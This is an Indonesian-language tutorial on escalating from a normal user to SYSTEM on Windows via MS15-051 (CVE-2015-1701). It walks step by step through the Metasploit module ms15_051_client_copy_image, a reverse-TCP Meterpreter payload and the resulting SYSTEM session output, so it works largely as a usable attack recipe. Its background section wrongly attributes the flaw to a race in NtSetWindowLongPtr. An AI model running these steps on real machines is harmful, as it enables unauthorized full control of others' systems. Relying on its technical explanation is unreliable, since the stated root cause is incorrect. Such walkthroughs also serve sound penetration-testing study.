 # MS15-051

## A. Apa itu MS15-051?

[MS15-051]() adalah kerentanan local privilege escalation (LPE) pada driver kernel Windows `win32k.sys`. Kerentanan ini memungkinkan penyerang dengan hak akses user biasa untuk meningkatkan hak akses menjadi `NT AUTHORITY\SYSTEM`, level tertinggi dalam sistem Windows.

Eksploitasi ini memanfaatkan race condition dalam fungsi `NtSetWindowLongPtr()` yang memungkinkan manipulasi objek window di kernel secara tidak aman, sehingga memungkinkan overwrite pointer dan eksekusi kode sewenang-wenang dengan hak `SYSTEM`.

## B. Detail Teknis:
- **CVE ID**: `CVE-2015-1701`
- **Buletin Microsoft**: `MS15-051`
- **Tanggal Rilis**: `12 Mei 2015`
- **Tipe**: Local Privilege Escalation (`LPE`)
- **Arsitektur**: `x86` dan `x64`
- **Platform**: `Windows`

## C. Sistem yang Rentan:
- Windows 7 SP1
- Windows 8
- Windows 8.1
- Windows Server 2008 R2 SP1
- Windows Server 2012
- Windows Server 2012 R2

## D. Langkah Penggunaan di Metasploit:

1. Dapatkan Akses Awal (User Biasa):

   ```
   msf6 > sessions          # Lihat sesi yang ada
   msf6 > sessions -i 1     # Masuk ke sesi dengan ID 1
   msf6 > getuid            # Melihat user saat ini
   msf6 > sysinfo           # Informasi sistem target
   ```

2. Keluar dari Sesi Meterpreter:
   
   ```
   msf6 > background
   ```

3. Gunakan Exploit MS15-051:

   ```
   msf6 > use exploit/windows/local/ms15_051_client_copy_image
   ```

4. Setting Parameter Penting:

   ```
   msf6 > set SESSION <ID>
   msf6 > set PAYLOAD <PAYLOAD>
   msf6 > set LHOST <IP_ATTACKER>
   msf6 > set LPORT <PORT_LISTENER>
   msf6 > set targets <ID>
   msf6 > set VERBOSE true
   ```

   > Untuk ID target bisa dilihat dengan:

   ```
   msf6 > show targets
   ```
   
5. Jalankan Exploit:

   ```
   msf6 > exploit
   ```

   Jika hasil output-nya seperti ini:

   ```
   [*] Started reverse TCP handler on 192.168.1.42:4444 
   [*] win32k.sys file version: 6.1.7601.17514 branch: 17
   [*] Reflectively injecting the exploit DLL and executing it...
   [*] Launching msiexec to host the DLL...
   [+] Process 1992 launched.
   [*] Reflectively injecting the DLL into 1992...
   [*] Sending stage (203846 bytes) to 192.168.1.50
   [+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
   [*] Meterpreter session 15 opened (192.168.1.42:4444 -> 192.168.1.50:49174) at 2025-05-14 16:19:31 +0700

   meterpreter > 
   ```


   Itu artinya kita sudah mendapatkan akses tertinggi dari sistem. Untuk mengeceknya, ketikkan perintah berikut:

   ```
   meterpreter > getuid 
   ```

   Hasil output-nya seperti ini:

   ```
   meterpreter > getuid 
   Server username: NT AUTHORITY\SYSTEM
   meterpreter > 
   ```
